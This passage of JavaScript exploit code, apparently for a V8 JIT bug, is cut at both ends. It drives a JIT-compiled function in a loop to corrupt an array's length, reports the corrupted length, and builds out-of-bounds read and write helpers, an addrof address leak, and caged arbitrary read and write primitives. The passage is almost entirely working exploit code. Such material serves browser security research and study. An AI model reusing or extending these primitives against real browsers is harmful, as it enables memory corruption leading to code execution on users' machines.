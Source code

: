 ```js
})

for (let i = 0; i <= THRESHOLD; i++) {
    a = Array(8)
    a[1] = 0.1
    a.pop()  // make a room such that push() does not reallocate elements
    if (i == THRESHOLD) {
        jitted = true;
    }
    f(p)
}
console.assert(oob_arr.length == 0x8000)
print("[+] Corrupted oob_arr.length with", oob_arr.length)

function oob_read32(offset) {
    // convert from uint32 indexing to uin64 indexing
    let val = ftoi(oob_arr[offset >> 1])
    if (offset % 2 == 0) {
        return lo(val)
    }
    return hi(val)
}

function oob_write32(offset, val) {
    // convert from uint32 indexing to uin64 indexing
    let temp = ftoi(oob_arr[offset >> 1])
    let new_val;
    if (offset % 2 == 0) {
        new_val = itof((hi(temp) << 32n) | val)
    } else {
        new_val = itof(val << 32n | lo(temp))
    }
    oob_arr[offset >> 1] = new_val
}

const OBJ_LEAKER_OFFSET = 0xd
function addrof(o) {
    obj_leaker[0] = o  // assign our target object to `obj_leaker`
    let addr = oob_read32(OBJ_LEAKER_OFFSET)  // read it using `oob_arr`
    return addr
}

const c_aar_arr_elements_offset = 0x14
const c_aaw_arr_elements_offset = 0x22

function caged_arb_read32(addr) {
    let elements = addr - 8n | 1n;
    oob_write32(c_aar_arr_elements_offset, elements)
    let leak = lo(ftoi(c_aar_arr[0]))
    return leak
}

function caged_arb_read64(addr) {
    let elements = addr - 8n | 1n;
    oob_write32(c_aar_arr_elements_offset, elements)
    let leak = ftoi(c_aar_arr[0])
    return leak
}

function caged_arb_write32(addr, val) {
    let elements = addr - 8n | 1n;
    let temp = caged_arb_read32(addr+4n)
    oob_write32(c_aaw_arr_elements_offset, elements)
```